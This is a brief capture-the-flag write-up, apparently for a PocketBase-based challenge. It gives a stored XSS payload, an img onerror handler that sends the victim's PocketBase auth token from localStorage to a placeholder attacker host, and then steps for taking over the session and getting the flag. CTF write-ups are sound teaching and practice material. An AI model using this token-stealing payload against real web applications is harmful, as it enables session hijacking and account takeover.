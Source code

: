 # justpocketthebase 

Upload the following image and reported it.

``
<<p>img src onerror=location=`\x2F\x2FYOUR_ATTACKER_IP\x3F${localStorage.getItem`pocketbase\x5Fauth`}`>empty<</p>>
``

Login replacing your localStorage (Auth token). Download the flag. `exiftool`. Submit the flag.
